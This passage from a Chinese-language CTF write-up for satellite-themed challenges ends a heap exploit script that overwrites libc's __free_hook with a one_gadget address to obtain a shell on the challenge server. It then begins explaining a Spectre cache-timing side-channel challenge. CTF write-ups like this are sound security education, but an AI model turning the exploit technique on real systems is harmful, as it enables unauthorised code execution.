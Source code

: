 ```python
	#h1:
  
	
	
	free_hook = libc.symbols['__free_hook']+libcbase
  log.info(hex(free_hook))
	one = [0xe3afe, 0xe3b01, 0xe3b04]
  
	for i in range(7):
		post(101, 0, 0, '2'*0x68)
	
	post(101, 1, 0, p64(free_hook)+b'2'*0x60)
	post(101, 1, 0, b'2'*0x68)
	post(101, 1, 0, b'2'*0x68)
	
	
	post(101, 1, 0, p64(libcbase+one[1])+b'2'*0x60)
	p.interactive()
	return ''


if __name__ == "__main__":

	flag = exp('magic.quals2023-kah5Aiv9.satellitesabove.me', 5300)
```



## Spectrel Imaging

> 题目描述
>
> This satellite has a spectral imaging payload. We managed to get our hands on the binary for the sequencer software that handles command sequences to the payload.
>
> The processor will be Intel Skylake or Cascade Lake.
>
> [附件](https://github.com/X1ngn/ctf/blob/master/Spectrel%20Imaging.zip)

按照描述应该是一个卫星程序，题目附件中还有一个stars.csv文件，在程序开始时读入，应该是保存一些星球的数据

由于现代CPU为了提高效率会使用乱序发射指令，对于分支跳转指令有分支预测功能，即在执行指令时会预测之后会走的分支，提前（乱序）执行后面的代码，在真正执行到时若预测失败再将寄存器上下文信息复原，若预测成功则可以大大提高性能。

幽灵攻击是基于时间的侧信道攻击，首先要有`array1[array2[i]]`这样的访存语句（会对i进行一些数组越界检查），并且要清空所有的cache排除干扰，思路是提前执行一些指令去训练CPU的分支预测器，即多次循环都是满足检查条件正常访问内存，在最后攻击时访问目标不可访问的内存，而CPU乱序执行会按照之前的经验提前预测这次也可以访问，将此时的`array1[array2[i]]`读取出来，而实际上由于此时的i不符合检查，是不能访问的。

在真正执行到判断指令时发现预测失败，把寄存器等上下文都再恢复回原来的数据，执行正确的跳转，虽然内存和寄存器中都没有保存目标内存`array1[array2[i]]`中的数据，但是此时目标内存的数据由于被读取过，其所在的cache行已经被调到cache中，只要遍历`[array1[i] for i in range(32, 127)]`，这时如果cache命中，访问的时间会很短，以此作为概率去猜测i越界时`array2[i]`中的值

> 逆向用到的一些编译器提供的函数：
>
> `void _mm_clflush(void const* p);`清空p地址处所在的缓存
>
> `void _mm_mfence ();`内存读写屏障，确保屏障前后的指令不会因为优化等原因乱序

